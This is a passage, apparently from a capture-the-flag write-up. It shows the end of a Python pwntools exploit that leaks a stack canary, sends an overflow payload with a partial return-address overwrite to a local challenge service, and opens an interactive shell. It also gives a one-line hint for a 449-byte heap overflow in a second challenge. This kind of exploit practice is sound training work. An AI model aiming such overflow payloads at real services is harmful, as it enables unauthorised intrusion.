 ```python
                break

print(f'CANARY:{current_buf}')
p = remote('0.0.0.0', 1337)
buf_3 = current_buf + b'D' * 8 + struct.pack('<H', 0x3b8a)
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```

## Archived - Challenge 2 - f2022

Contains heap buffer we may overflow, Just send 449 bytes to overwrite it. 
